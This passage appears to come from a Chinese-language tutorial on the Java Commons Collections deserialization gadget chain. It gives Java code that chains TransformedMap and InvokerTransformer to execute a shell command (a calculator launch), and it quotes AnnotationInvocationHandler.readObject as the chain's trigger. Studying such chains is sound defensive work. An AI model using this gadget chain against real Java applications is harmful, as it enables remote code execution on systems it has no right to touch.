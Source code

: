 可以看到该类其实就是在对MapEntry进行修饰，那么MapEntry是什么呢，事实上[Map.Entry](https://blog.csdn.net/yaomingyang/article/details/78748130)接口在 Java 中代表了键值对的数据格式，也就是该类其实是在对于Map中的键值对进行修饰，又由于TransformedMap继承了AbstractInputCheckedMapDecorator，我们可以猜想对于TransformedMap这个Map对象，当我们对其执行setValue()操作时其实调用的就是MapEntry中的setValue方法。

因此，我们只需要获取TransformedMap的一个Entry(键值对)，再对这个Entry执行setValue()，就可以控制transform函数的参数了，代码如下：

```java
Runtime r = Runtime.getRuntime();
InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a Calculator"});
HashMap<Object, Object> invokerTransformerHashMap = new HashMap<>();
invokerTransformerHashMap.put(null,null);
Map<Object,Object> transformedmap = TransformedMap.decorate(invokerTransformerHashMap, null, invokerTransformer);

for (Map.Entry entry:transformedmap.entrySet()){
  entry.setValue(r);
}
```

截止目前我们已经可以通过一个map对象并通过它的一些基本操作（如put和Map.Entry的setValue方法）执行命令，接下来我们再往上找，看看有没有哪个类的readObject方法里面执行了调用了这两个方法。

# AnnotationInvocationHandler

我们发现`sun.reflect.annotation.AnnotationInvocationHandler`这个类的readObject方法有对map中的元素进行setValue的操作，假如可控的话，那我们就到了链的终点啦！看下readObject函数：

```java
private void readObject(java.io.ObjectInputStream s)
  throws java.io.IOException, ClassNotFoundException {
  s.defaultReadObject();

  // Check to make sure that types have not evolved incompatibly

  AnnotationType annotationType = null;
  try {
    annotationType = AnnotationType.getInstance(type);
  } catch(IllegalArgumentException e) {
    // Class is no longer an annotation type; time to punch out
    throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
  }

  Map<String, Class<?>> memberTypes = annotationType.memberTypes();

  // If there are annotation members without values, that
  // situation is handled by the invoke method.
  for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
    String name = memberValue.getKey();
    Class<?> memberType = memberTypes.get(name);
    if (memberType != null) {  // i.e. member still exists
      Object value = memberValue.getValue();
      if (!(memberType.isInstance(value) ||
            value instanceof ExceptionProxy)) {
        memberValue.setValue(
          new AnnotationTypeMismatchExceptionProxy(
            value.getClass() + "[" + value + "]").setMember(
            annotationType.members().get(name)));
      }
    }
  }
}
```
